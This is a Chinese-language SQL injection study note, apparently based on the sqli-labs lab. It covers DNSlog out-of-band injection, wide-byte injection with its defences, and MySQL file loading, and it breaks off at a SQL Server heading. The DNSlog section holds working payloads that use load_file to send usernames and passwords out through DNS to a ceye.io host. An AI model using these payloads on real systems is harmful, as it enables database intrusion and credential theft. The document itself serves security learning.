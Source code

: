 - DNSlog注入

  可能用在没有回显的情况下，布尔盲注是正确和错误会返回不同的结果，而时间盲注其实是布尔盲注的一种，正确和错误根据响应不同的时间来判断，DNSlog注入就是借助DNS平台[http://ceye.io](http://ceye.io/)显示

  - 语法
    and load_file(concat('\\\\',(select concat_ws('A',(username,password)) from security.users),'.[mysql.k1opg3.ceye.io](http://mysql.k1opg3.ceye.io/)\\abs')) -- q

  - 注意点
    前提条件1：secure_file_priv为空或指定目录而不是Null（show variables like '%secure%'）；前提条件2：是windows服务器，因为load_file函数只能在windows中使用。3.需要注意不能使用如~,@等特殊符号，平台不会显示

  - 操作要点
     用hex函数之后再转化http://192.168.2.38/sql/Less-9/?id=1'  and load_file(concat('\\\\',(select hex(concat_ws('~',username,password)) from security.users limit 0,1),'.[mysql.k1opg3.ceye.io](http://mysql.k1opg3.ceye.io/)\\abs')) -- q

- 宽字节注入

  GB2312/GBK/GB18030/BIG5/Shift_JIS

  - 黑盒测试 2%df'

  - 白盒测试
    查看MySQL编码是否为GBK,是否使用preg_replace把单引号替换成'\,是否使用addslashes进行转义，是否使用mysql_real_escape_string进行转义
    ​

  - 防御方式

    - 1.使用utf-8
      ps:不仅在gbk,韩文，日文等等都是宽字节，都有可能存在

    - 2.mysql_real_escape_string,并且需要设置mysql_set_charset('gbk',$conn)

    - 3.可以设置参数，character_set_client=binary

- 利用操作系统

  - MYSQL

    - 特点：习惯以ASCII文本格式保存数据库文件;使用十六进制代替字符串常量

    - 创建表
      create table authors (fname char(50),sname char(50),email char(100),flag int);

    - load data infile函数写入txt文件内容
      load data infile './users.txt' into table authors fields terminated by '';//注意该txt文件在数据库data目录下

  - SQL Server
    - 特点